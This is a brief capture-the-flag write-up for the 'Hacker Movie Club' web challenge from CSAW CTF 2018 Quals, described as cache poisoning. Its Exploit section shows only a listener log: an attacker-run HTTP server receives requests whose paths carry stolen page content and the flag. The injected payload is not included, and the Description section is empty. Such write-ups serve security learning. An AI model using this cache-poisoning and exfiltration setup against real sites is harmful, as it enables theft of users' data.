 # CSAW CTF 2018 Quals

## List

- Hacker Movie Club - web / Cache Poisoning
- Oauth2 - web / oauth2 / 

## Hacker Movie Club

### Description



### Exploit



```
root@vultr:/tmp/xss# python -m SimpleHTTPServer 10101
Serving HTTP on 0.0.0.0 port 10101 ...
211.236.165.193 - - [18/Sep/2018 17:04:45] code 404, message File not found
211.236.165.193 - - [18/Sep/2018 17:04:45] "GET /WarGamesKung%20FurySneakersSwordfishThe%20Karate%20KidGhost%20in%20the%20ShellSerial%20Experiments%20LainThe%20MatrixBlade%20RunnerBlade%20Runner%202049HackersTRONTron:%20LegacyMinority%20ReporteXistenZ[REDACTED] HTTP/1.1" 404 -
216.165.2.32 - - [18/Sep/2018 17:04:53] code 404, message File not found
216.165.2.32 - - [18/Sep/2018 17:04:53] "GET /WarGamesKung%20FurySneakersSwordfishThe%20Karate%20KidGhost%20in%20the%20ShellSerial%20Experiments%20LainThe%20MatrixBlade%20RunnerBlade%20Runner%202049HackersTRONTron:%20LegacyMinority%20ReporteXistenZflag%7BI_h0pe_you_w4tch3d_a11_th3_m0v1es%7D HTTP/1.1" 404 -
```

**flag{I_h0pe_you_w4tch3d_a11_th3_m0v1es}**



### Reference

https://www.youtube.com/watch?v=mroq9eHFOIU

https://docs.acquia.com/acquia-cloud/performance/varnish/headers/

https://portswigger.net/blog/practical-web-cache-poisoning

https://portswigger.net/kb/papers/7q1e9u9a/web-cache-poisoning.pdf

